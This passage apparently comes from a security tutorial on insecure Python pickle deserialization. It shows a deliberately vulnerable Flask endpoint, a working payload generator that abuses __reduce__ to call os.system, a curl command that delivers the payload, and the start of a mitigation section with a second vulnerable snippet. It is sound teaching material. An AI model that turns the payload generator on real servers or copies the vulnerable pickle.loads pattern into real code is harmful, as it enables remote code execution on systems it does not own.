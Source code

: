```python
            username = pickle.loads(decoded) #vulnerable deserialization
            return jsonify({'Hi':username})

        except Exception as e:
            return jsonify({'Hi': 'Stranger'})

if __name__ == '__main__':
    app.run()

```

The server behaves similarly to the NodeJS example. It listens on port 5000 and when a POST request is made to the endpoint, it tries to decode and deserialize the data in order to extract a username from it. In case of any errors, it responds back with a generic message otherwise replies with the name of the user. 

Again, the serialized data is read directly from the request body without any checks. Therefore, it can be exploited easily to gain Remote code execution by generating payloads with the following script:

```python
import pickle
import base64
import os

RCE_CMD = 'touch /tmp/PoC'

class RCE:
    def __reduce__(self):
        cmd = (RCE_CMD)
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

The resulting output would be a payload, which when sent in the POST body would execute the respective command on the system. For example, the following payload executes the command `touch /tmp/PoC` on the server:

```bash
$ curl -X POST http://127.0.0.1:5000/ -d "{'payload': 'gASVKQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjA50b3VjaCAvdG1wL1BvQ5SFlFKULg=='}"
```

# Mitigation

- Never directly deserialize any user-controlled or untrusted data. For example, take the original code snippet:  

```python
class ExampleProtocol(protocol.Protocol):  
	def dataReceived(self, data):    
		# Code that would be here would parse the incoming data  
		# After receiving headers, call confirmAuth() to authenticate  

	def confirmAuth(self, headers):  
		try:  
			token = cPickle.loads(base64.b64decode(headers['AuthToken']))  # User control data flows into insecure cPickle.loads() function
			if not check_hmac(token['signature'], token['data'], getSecretKey()):  
				raise AuthFail  
			self.secure_data = token['data']  
		except:  
```